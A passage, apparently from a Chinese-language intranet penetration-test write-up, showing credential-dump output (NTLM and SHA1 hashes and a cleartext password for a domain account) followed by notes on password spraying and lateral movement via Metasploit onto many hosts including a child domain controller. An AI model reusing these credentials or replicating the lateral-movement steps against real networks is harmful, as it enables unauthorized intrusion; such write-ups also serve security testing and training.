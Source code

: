 ##### 做hashdump：

这里直接做完hashdump之后发现

```php
msv :   
     [00000003] Primary
     * Username : mqd.tdv 
     * Domain   : FPC
     * NTLM     : 7007ebae678042f1cf112578ac43bf68
     * SHA1     : 712ce4bf3a4a777582389d37f8d06158ed204f6b
    tspkg : 
    wdigest :   
     * Username : mqd.tdv 
     * Domain   : FPC
     * Password : QWE123456QE!@#
    kerberos :  
     * Username : mts.tdv
     * Domain   : FPC
     * Password : QWE123456QE!@#
    ssp :   
    credman :   
```

# 内网横向（因为自己失误造成了比较繁琐的过程）

因为前期已经看到了域管的账号就是mqd.tdv，这里直接做密码喷洒，这里转到msf中看下。上线了如此多的主机，同时，DC2子域控也进行了上线

### 第一天上线的主机：(MSF上)

![image.png](assets/1698900706-a61165c2f10c7cd92994a2ae05e9689e.png)
